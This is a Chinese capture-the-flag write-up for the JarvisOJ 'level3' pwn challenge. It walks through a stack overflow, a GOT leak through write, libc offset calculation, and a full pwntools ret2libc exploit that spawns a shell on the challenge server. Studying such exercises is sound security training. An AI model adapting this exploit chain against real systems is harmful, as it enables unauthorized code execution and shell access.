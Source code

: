 # Jarvisoj--pwn--level3&level3_x64

32位和64位思路一样，我们用64位来玩

checksec一下

    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)


打开ida查看一波

```c++
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  return write(1, "Hello, World!\n", 0xEuLL);
}
```

进入vulnerable_function

```c++
ssize_t vulnerable_function()
{
  char buf; // [rsp+0h] [rbp-80h]

  write(1, "Input:\n", 7uLL);
  return read(0, &buf, 0x200uLL);
}
```

此处存在栈溢出。

## 利用思路

利用write函数把got表中read函数的地址暴露出来，配合libc文件求偏移值，然后把system和‘/bin/sh’的真实地址求出，利用read函数把system("/bin/sh") 写进栈的返回地址。

### 第一步 求read函数的地址

```
0000000000000080 buf             db ?
-000000000000007F                 db ? ; undefined
-000000000000007E                 db ? ; undefined
.....................................
-0000000000000002                 db ? ; undefined
-0000000000000001                 db ? ; undefined
+0000000000000000  s              db 8 dup(?)
+0000000000000008  r              db 8 dup(?)
+0000000000000010
+0000000000000010 ; end of stack variables
```

可见我们要构造的payload = ’a' * (0x80 + 8) + rdi + p64(1) + rsi,r15 + read_got + p64(8) + write_plt + vulnerable_function

(32位  则不需要rdi rsi

​	payload = ’a' * (0x88 + 4) + write_plt + vulnerable_function + p32(1) + p32(read_got) + p32(4)

)

利用ROPgadget 找到 rdi 和 rsi r15的地址

```
root@kali:~/下载/level3_x64# ROPgadget --binary ./level3_x64 --only "pop|ret"
Gadgets information
============================================================
0x00000000004006ac : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006ae : pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006b0 : pop r14 ; pop r15 ; ret
0x00000000004006b2 : pop r15 ; ret
0x00000000004006ab : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x00000000004006af : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400550 : pop rbp ; ret
0x00000000004006b3 : pop rdi ; ret
0x00000000004006b1 : pop rsi ; pop r15 ; ret
0x00000000004006ad : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400499 : ret

Unique gadgets found: 11
```



### 第二步 利用libc偏移求出system 和 '/bin/sh' 的地址

libc相关函数和字符串地址

```
root@kali:~/下载/level3_x64# readelf -a ./libc-2.19.so |grep "read@@"
   534: 00000000000eb6a0    90 FUNC    WEAK   DEFAULT   12 __read@@GLIBC_2.2.5
   657: 00000000000794d0    27 FUNC    GLOBAL DEFAULT   12 _IO_file_read@@GLIBC_2.2.5
   883: 00000000000eb6a0    90 FUNC    WEAK   DEFAULT   12 read@@GLIBC_2.2.5
  1082: 00000000000ef610  1691 FUNC    GLOBAL DEFAULT   12 fts_read@@GLIBC_2.2.5
  1175: 00000000000fa710    31 FUNC    GLOBAL DEFAULT   12 eventfd_read@@GLIBC_2.7
  1574: 000000000006e7e0   320 FUNC    WEAK   DEFAULT   12 fread@@GLIBC_2.2.5
  2021: 00000000000cb540    96 FUNC    WEAK   DEFAULT   12 pread@@GLIBC_2.2.5
  2137: 000000000006e7e0   320 FUNC    GLOBAL DEFAULT   12 _IO_fread@@GLIBC_2.2.5
root@kali:~/下载/level3_x64# readelf -a ./libc-2.19.so |grep "system@@"
   577: 0000000000046590    45 FUNC    GLOBAL DEFAULT   12 __libc_system@@GLIBC_PRIVATE
  1337: 0000000000046590    45 FUNC    WEAK   DEFAULT   12 system@@GLIBC_2.2.5
root@kali:~/下载/level3_x64# strings -a -t x libc-2.19.so |grep "/bin/sh"
 17c8c3 /bin/sh
```

求出read的地址后，与libc文件里的read地址相减得出 偏移值

offset = read_adr - read_libc

system_adr = system_libc + offset

bin_adr = bin_sh_libc + offset

### 第三步 构造payload并写进栈

payload = ’a' * (0x80 + 8) + rdi + bin_adr  + system_adr + vulnerable_function

(32位

  payload = ’a' * (0x88 + 4) + system_adr + vulnerable_function + bin_adr

)

exp:

```
from pwn import *

r = remote("pwn2.jarvisoj.com",9883)
e = ELF("./level3_x64")

write_plt = e.plt["write"]
read_got = e.got["read"]
func = e.symbols["vulnerable_function"]
rdi_ret = 0x4006b3
rsi_ret = 0x4006b1

payload1 = "A" * (0x80 + 8) 
payload1 += p64(rdi_ret) + p64(1) + p64(rsi_ret) + p64(read_got) + p64(256) + p64(write_plt) + p64(func)

r.recvline()
r.send(payload1)

readadr = u64(r.recv(8))
print(hex(readadr))

libc_read = 0x00000000000eb6a0
offset = readadr - libc_read
sysadr = offset + 0x046590
bshadr = offset + 0x17c8c3

payload2 = "A" * (0x80 + 8) + p64(rdi_ret) + p64(bshadr) + p64(sysadr) + p64(0xdeadbeef)

r.recvline()
r.send(payload2)
r.interactive()
```

